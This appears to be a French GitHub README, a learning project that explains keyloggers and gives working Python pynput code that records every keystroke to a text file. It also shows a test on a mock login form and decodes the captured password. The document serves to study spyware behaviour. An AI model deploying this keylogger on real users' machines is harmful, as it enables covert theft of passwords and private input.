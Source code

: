 <h2 align="center">Qu'est ce qu'un Keylogger ?</h2>

<p>
un Keylogger est un logiciel permettant d'enregistrer les frappes faites au clavier. 
Ce malware rentre dans la catégorie des spywares. 
</p>

<h2 align="center">A quoi sert t-il ?</h2>

<p>
Ce spyware permet de connaitre les touches frappées par l'utilisateur. 
En renconstituant l'arborescence, on peut déterminer des mots de passes, des sites webs consultés ... 

</p>

<h4>Exemple :</h4>
<p>
facebookmonadressemail@mail.comPassw0rd1 

En décomposant cette liste, on peut déterminer que l'utilisateur c'est rendu sur Facebook,
à comme adresse mail : adressemail@mail.com et comme mot de passe : Passw0rd1.
</p>

<h3 align="center">Création d'un Keylogger</h3>

<p> 
Nous allons avoir besoin de plusieurs choses.
</p>

<ul>
    <li>Un éditeur de texte.</li>
    <li>Pyton3 d'installé sur notre machine.</li>
    <li>La librairie pynput installée</li>
</ul>

<p>
Pour installer la librairie pynput :
</p>

```python  

pip install pynput

```

<p>
Voici le code que j'ai réaliser permettant d'enregistrer chaque frappe dans un fichier .txt. 
Il est possible de modifier ce code pour envoyer les informations vers un serveur SMTP ou autre.

Mon objectif est juste d'analyser le comportement d'un keylogger 
</p>

<h3 align="center">Le code Python</h3>

```python
from pynput.keyboard import Listener #Import de la librairie
import logging

file="DataKey.txt" #fichier dans lequel va être enregistrer les frappes
logging.basicConfig(filename=file, level=logging.DEBUG, format="%(message)s") #les informations que l'on souhaite récupérer lors de la frappe.

def on_press(key): #fonction qui récupère les touches frapper par l'utilisateur. 
    logging.info(key)

with Listener(on_press=on_press) as listener:
    listener.join()

```

<h3 align="center">Test grandeur nature</h3>


<p>
Pour la seconde partie, je n'ai pas converti le programme en .exe ou essayer de l'obfusquer.
J'ai créé la maquette d'un site web contenant un form. 

J'ai demandé à plusieurs personnes de rentrer un mot de passe. 
</p>

![Formulaire](https://user-images.githubusercontent.com/96829109/188643428-eded0ff1-f9e4-4acb-8b92-4345f0b35001.PNG)

<p>
Pour valider le bon fonctionnement du site web, j'ai vérifier les données enregistrer par le keylogger. 
</p>

```
Key.shift
'P'
'a'
's'
's'
'w'
'o'
'r'
'd'
<97>
```

![Capture](https://user-images.githubusercontent.com/96829109/196785889-63e88f16-ab89-40ba-a295-06365daf1680.PNG)

<p>
On peut comprendre que une ou plusieurs lettres sont en majuscules car la touche Shift a été pressée.

De plus, à la fin nous avons un chiffre '97'. Cela ne correspond pas au password.

Pour cela, j'ai du effectuer un tableau pour obtenir une concordance.

<table>
    <tr>
      <td>0</td>
      <td>1</td>
      <td>2</td>
      <td>3</td>
      <td>4</td>
      <td>5</td>
      <td>6</td>

      <td>7</td>
      <td>8</td>
      <td>9</td>
    </tr>
    <tr>
      <td>96</td>
      <td>97</td>
      <td>98</td>
      <td>99</td>
      <td>100</td>
      <td>101</td>
      <td>102</td>
      <td>103</td>
      <td>104</td>
      <td>105</td>
    </tr>
</table>

<p>
Le mot de passe contient à 1 à la fin. Il ne reste plus qu'à tester quels sont les lettres en majuscules. 
</p>
